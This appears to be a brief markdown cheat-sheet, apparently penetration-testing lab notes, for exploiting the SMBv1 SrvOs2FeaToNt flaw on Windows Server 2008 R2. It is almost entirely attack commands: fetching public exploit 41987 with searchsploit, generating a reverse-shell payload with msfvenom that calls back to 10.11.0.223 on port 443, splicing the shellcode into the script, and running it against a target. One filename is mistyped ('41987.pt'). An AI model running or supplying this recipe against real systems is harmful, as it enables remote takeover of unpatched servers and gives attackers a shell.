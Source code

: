 # SMBv1 SrvOs2FeaToNt Exploit

* Windows 2008 Srv R2 >

exploit
```
searchsploit -m 41987
```

payload
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.223 LPORT=443 -f hex
```

edit
```
replace   line 78 reversetcp_shellcode=
```

exploit
```
python3 41987.pt $TARGET
```